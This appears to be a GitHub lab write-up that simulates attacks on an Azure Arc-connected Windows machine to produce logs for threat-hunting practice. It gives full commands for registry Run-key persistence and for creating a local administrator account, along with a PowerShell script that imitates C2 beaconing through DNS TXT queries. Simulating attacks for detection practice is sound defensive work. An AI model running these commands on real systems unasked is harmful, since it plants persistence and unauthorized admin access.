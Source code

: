![GitHub Logo](https://media-hosting.imagekit.io//624976c3677e4fbc/attack.png?Expires=1835504095&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=ECl9MXShcMnnOJbrW86dwFt6XH~GN2UDRVLCWTHqBtOamYtWHL~zmdHdiJfpt4O2a18spjuCX9kmpW5ofW02urY-p1iREhBJ4wj77xqwePjIat-SHf74LT8EJiC8fsUwLiGHuy~Zh0jeN4FGfN~OB26xDop~2jLlbX1ZEelhlA3kTQUwATBtyug-uaJnXGO~wQkWRD8o-QRPj1TbYXI6GZhaAIMJjVFMQeM-5nekGSXsjlw5ThyJF8~3VHhq0Hz7Y7BeRshIADoHzolnXRFKuIi09h~sWkpDcNM5RhANfFBvGKDi1p454wS382NLOfbtuuLGkpLerseiSexNsieG0g__)


# Persistence atack with registry key addition
In order to perform the task, I had previously connected my machine with Azure Arc. So, it is a mciahine with Azure Arc connected that has Azure monitor agent configured
1. Created a temp folder file in the root directory with
- _cd \
mkdir temp
cd temp_

2. Ran the command below to simulate program persistance: REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"


## Privilege Elevation Attach with User Aggregation
This command help to simulate the creation of administrator account
- net user theusernametoadd /add
- net user theusernametoadd ThePassword1!
- net localgroup administrators theusernametoadd /add
![GitHub Logo](https://media-hosting.imagekit.io//2b35beed32864efc/temp%20folder%20and%20command%20for%20persistent%20program%20simulation%20and%20priviledge%20elevation%20attack%20with%20user%20add.png?Expires=1835505576&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=sskFKv6PEXJUY4ptxQM1u1p0CyOXrd8BNTcWqb6F9Ll8kNF3FURzm6WUJl9MwGKl3xe11we2CDtZjR1qTNSY7Kxu6HnAYlPySjZoVhc~-W58mWV892pFFbqSOAvQkkJgAfn07iQG6~~6XwuN1MHn669ICiIY~4XTPMT69vUL7APrPJ3-i7VhZyf1H9m7Y4iuag8WOivlrtdXA2jQzNa04v44ESz-0GYPxSfQmmvaU04ye3pxnr4AlIC6DOED1UlbiJrLX89XuExY4vr6rF1ZOlRYNjnQ28d7viq9AjLMVG81jtY~5huVmhnPCkUP8fR04FjvC~1tz0vYmlS1VDf4gg__)

### Command and control attack with DNS
- I ran this command to create a scirpt that will simulate a DNS query on a C2 server
- param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
    [int]$C2Interval = 8,
    [int]$C2Jitter = 20,
    [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
- From the notepad page that was opened automatically, seect file, then save.
- I ran the powershell command  _Start PowerShell.exe -file c2.ps1_ in command prompt in order to create the dns resolution error.
- ![GitHub Logo](https://media-hosting.imagekit.io//5a915784106848d6/DNS%20resolution%20error%20for%20simulated%20attacks.png?Expires=1835506537&Key-Pair-Id=K2ZIVPTIP2VGHC&Signature=iFMAtzVKOuDIGcfbqWikBCsBN0vyvyfSE8gqqroON3bdVwV9YNsk3z3aSozh~UcKMnqqjjYQO4h6dy0r4I6Grj7b8lBCXnIiILIPtyNboCK4sBM8uXNQpLinyzpZMCdzVkyBO8pm-u1ltiLzNOPvu8Y3T46G~7oKmoBHTbR1Dtv5Oj2mMfFMkeCoctm92No6SrT~2z9Buy9uET76bhVlvH6dVdnLIDNNGdiBLPt0LoSnuwqknLDoNENIqxJcRP-gWurvdqozxhnYr-djeeXYepmcQckDjZEcY~OZunnVit~xhVus1ycLGRkJFHwRlRLpJ~nc0A0gFHkBRuIcEGW7JA__)
-  I allow this PowerShell script to run in the background. It generated log entries for a few hours. The data created by this task was used in the threat hunting lab.

